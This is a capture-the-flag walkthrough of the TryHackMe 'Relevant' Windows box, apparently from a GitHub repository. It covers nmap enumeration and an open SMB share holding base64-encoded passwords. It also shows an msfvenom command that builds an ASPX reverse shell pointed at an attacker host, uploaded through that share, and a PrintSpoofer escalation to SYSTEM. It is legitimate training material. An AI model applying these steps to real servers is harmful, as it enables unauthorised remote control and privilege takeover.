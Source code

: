 Relavant (Tryhackme)

<img src="https://tryhackme-images.s3.amazonaws.com/room-icons/10524728b2b462e8d164efe4e67ed087.jpeg" alt="Room Icon" width="150"/>

Penetration Testing Challenge

# Enumeration

## Nmap

```jsx
PORT      STATE SERVICE       REASON          VERSION
80/tcp    open  http          syn-ack ttl 125 Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server

135/tcp   open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 125 Microsoft Windows netbios-ssn

445/tcp   open  microsoft-ds  syn-ack ttl 125 Windows Server 2016 Standard Evaluation 14393 microsoft-ds

3389/tcp  open  ms-wbt-server syn-ack ttl 125 Microsoft Terminal Services
| ssl-cert: Subject: commonName=Relevant
| Issuer: commonName=Relevant
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-06-04T13:17:24
| Not valid after:  2025-12-04T13:17:24
| MD5:   9ddf:ed34:3c12:2d90:122e:611d:d885:719d
| SHA-1: 5577:0fbe:8a32:a7d3:3b5c:122e:ce23:b5bb:6961:b44d
|_ssl-date: 2025-06-05T13:23:37+00:00; -1s from scanner time.

49663/tcp open  http          syn-ack ttl 125 Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0

49666/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC

```

## SMB (445)

```jsx
┌──(kali㉿kali)-[~/CTF/tryhackme/Relevant]
└─$ smbclient -L \\\\10.10.102.138\\
Password for [WORKGROUP\kali]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        nt4wrksv        Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.102.138 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available

```

```jsx
┌──(kali㉿kali)-[~/CTF/tryhackme/Relevant]
└─$ smbclient \\\\10.10.102.138\\nt4wrksv
Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sat Jul 25 17:46:04 2020
  ..                                  D        0  Sat Jul 25 17:46:04 2020
  passwords.txt                       A       98  Sat Jul 25 11:15:33 2020

```

```jsx
[User Passwords - Encoded]
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk
```

```jsx
┌──(kali㉿kali)-[~/CTF/tryhackme/Relevant]
└─$ echo "Qm9iIC0gIVBAJCRXMHJEITEyMw==" | base64 -d
Bob - !P@$$W0rD!123 
```

```jsx
┌──(kali㉿kali)-[~/CTF/tryhackme/Relevant]
└─$ echo "QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk" | base64 -d
Bill - Juw4nnaM4n420696969!$$$
```

![image](https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/3f2c4eb2f420cf3dc3c24b324c83a916a4f5110d/Relevant(THM)/image%20(1).png?raw=true)




```jsx
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=53 -f aspx -o rev.aspx

```

- `.aspx` is the file extension for **ASP.NET web pages**, used on **Windows servers running IIS**
- we will upload this from smb
- We got shell and get user.txt

## ROOT

- check whoami `/priv`

```jsx
SeImpersonatePrivilege enable
```

### PrintSpoofer

```jsx
┌──(kali㉿kali)-[/opt/tools/printspoofer]
└─$ smbclient \\\\10.10.102.138\\nt4wrksv
Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \> put PrintSpoofer.exe
putting file PrintSpoofer.exe as \PrintSpoofer.exe (18.5 kb/s) (average 18.5 kb/s)
smb: \> 

```

```jsx
c:\inetpub\wwwroot\nt4wrksv>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is AC3C-5CB5

 Directory of c:\inetpub\wwwroot\nt4wrksv

06/05/2025  07:12 AM    <DIR>          .
06/05/2025  07:12 AM    <DIR>          ..
07/25/2020  08:15 AM                98 passwords.txt
06/05/2025  07:12 AM            27,136 PrintSpoofer.exe
06/05/2025  06:52 AM             3,424 rev.aspx
               3 File(s)         30,658 bytes
               2 Dir(s)  21,045,948,416 bytes free

c:\inetpub\wwwroot\nt4wrksv>PrintSpoofer.exe -i -c cmd
```

```jsx
C:\Windows\system32>whoami
whoami
nt authority\system

```
